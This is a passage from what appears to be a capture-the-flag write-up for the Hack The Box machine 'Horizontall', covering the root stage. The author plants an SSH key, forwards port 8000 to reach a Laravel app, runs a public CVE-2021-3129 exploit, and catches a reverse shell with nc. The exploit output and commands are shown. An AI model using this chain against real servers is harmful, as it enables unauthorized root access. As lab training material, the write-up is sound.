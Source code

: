 Reviewing other services in this box, noticed a application running on 8000/TCP, which was confirmed by a simple `curl` command, presenting itself as a **Laravel v8 (PHP v7.4.18)**.

As we can't use browser in this session, have configured a private key in this box in order to tunnel traffic to 8000/TCP from attacker machine, done by following steps

- created a new ssh-key using `ssh-keygen`
- created a folder **.ssh** ** ~ (`/opt/strapi/`) and pasted contents from `id_rsa.pub` to `authorized_keys` file
- after that, connected using the command `ssh -i id_rsa strapi@horizontall.htb -L 8000:127.0.0.1:8000`, which redirects traffic from local machine at port 8000 to 8000 at destination host, displaying to us the following page

![HTB Horizontall - Laravel page](https://i.imgur.com/XwW7RxT.png){: .align-center}

After some research, came across this page at [Laravel - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/laravel), that mentions CVE-2021-3129, which can allow us get root on this box if this version running is `<= 8.4.2`

In order to test it, downloaded exploit from [GitHub - nth347/CVE-2021-3129_exploit: Exploit for CVE-2021-3129](https://github.com/nth347/CVE-2021-3129_exploit) and luckly was able to confirm that exploit worked properly

```bash
$ ./exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami                                                                         
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2776, done.
remote: Counting objects: 100% (1118/1118), done.
remote: Compressing objects: 100% (640/640), done.
remote: Total 2776 (delta 459), reused 955 (delta 334), pack-reused 1658
Receiving objects: 100% (2776/2776), 412.30 KiB | 2.77 MiB/s, done.
Resolving deltas: 100% (1101/1101), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited
```

In the second attempt, changed command to span a reverse shell to attacker machine

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.16.13] from (UNKNOWN) [10.10.11.105] 39176
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
<redacted>      
```

I hope you guys have enjoyed it!

See you in the next post! :smile:
